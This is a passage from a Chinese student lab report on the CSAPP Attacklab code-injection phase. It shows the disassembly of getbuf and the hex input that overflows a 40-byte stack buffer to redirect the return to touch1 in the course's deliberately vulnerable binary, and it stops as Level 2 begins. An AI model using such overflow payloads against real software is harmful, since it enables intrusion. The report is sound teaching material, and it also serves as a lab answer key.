 ## e 实验环境变动

因为这学期 OS 课的需求，从虚拟机换成了双系统，从之后的实验环境如下：

![image-20220608191907066](./CSAPP  Lab Report2.assets/image-20220608191907066.png)

终端也从`sprout@sprout-virtual-machine`变为`sprout@sprout-KLVL-WXX9`：

![image-20220608192026591](./CSAPP  Lab Report2.assets/image-20220608192026591.png)

## 3 Attacklab

### Part I: Code Injection Attacks

#### Level 1（Phase 1）

这一部分的目的是，通过缓冲区写溢出的方式，将返回值修改至函数`touch1()`。

首先我们需要反汇编`ctarget`，找到相应的函数信息。

![image-20220608195512498](./CSAPP  Lab Report2.assets/image-20220608195512498.png)

实验`Writeup`告诉我们，执行的是`test`函数，这个函数位于`0x0000000000401968`处，其调用了`getbuf`函数，这个函数的反汇编：

```assembly
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	call   401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	ret    
  4017be:	90                   	nop
  4017bf:	90                   	nop
```

这里的第一行告诉我们栈上空间为`0x28`也就即40个字节，所以只需要将前40个字节随便填写，后面改成`touch1`的地址即可。查反汇编得知这个函数的地址在`0x00000000004017c0`。

实验Writeup提醒：注意字节序的问题。我的电脑是小端机，所以提供给`hex2raw`的字符串可以是：

```
20 11 18 86 20 11 18 86 20 11 18 86 20 11 18 86 20 11 18 86 20 11 18 86 20 11 18 86 20 11 18 86 20 11 18 86 20 11 18 86 c0 17 40
```

> 为达到验证目的，今后无用字符都用本人学号来填充。

保存为`level1.txt`，做测试。

![image-20220608204209576](./CSAPP  Lab Report2.assets/image-20220608204209576.png)

#### Level 2（Phase 2）

这一部分需要注入代码，实现类似Level1的结果——调用`touch2()`。
